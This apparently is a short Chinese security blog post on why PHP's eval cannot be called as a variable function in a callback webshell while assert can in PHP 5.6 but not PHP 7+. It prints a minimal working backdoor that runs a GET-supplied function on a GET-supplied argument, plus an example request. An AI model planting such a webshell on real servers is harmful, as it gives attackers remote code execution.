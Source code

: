 ﻿---
title: webshell中 eval与assert的区别
categories: 
---
在构造后门的时候发现eval不能作为回调函数进行使用

以下测试为php5.6.9

就是这样的形式：

```
<?php 
$a = $_GET[a];
$b = $_GET[b];

$a($b);
?>
```
<!--more-->

我们不能使用 `?a=eval&b=phpinfo();`来执行命令但是可以使用 `?a=assert&b=phpinfo();`

查看eval的官方文档

>注意: 因为是一个**语言构造器**而不是一个函数，不能被 可变函数 调用。

![](https://img-blog.csdnimg.cn/2edb3cc7caf44d1fbe93e6318a7ee55d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
再去看看可变函数的定义

>PHP 支持可变函数的概念。这意味着 **如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它**。可变函数可以用来实现包括回调函数，函数表在内的一些用途。

>可变函数不能用于例如 echo，print，unset()，isset()，empty()，include，require 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数。


一目了然，因为**eval不是一个函数**，所以上面我们的调用方式是错误的

![](https://img-blog.csdnimg.cn/509f2c557feb4f9294f93b7d4abd7ef6.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/6a9ba774df0641aab6efc97f3abf94a5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
还有一点在 **php7+** 中，**assert断言也已经成为语言解释器，再也不是函数了**，所以在php7中使用assert作为回调后门不能成功的原因就在于此


php7：

![](https://img-blog.csdnimg.cn/d395d889abc344d899efd3a75e1171bc.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
更加深入的研究：

[分析webshell(php)以及eval与assert区别 ](https://www.freebuf.com/articles/web/258943.html)

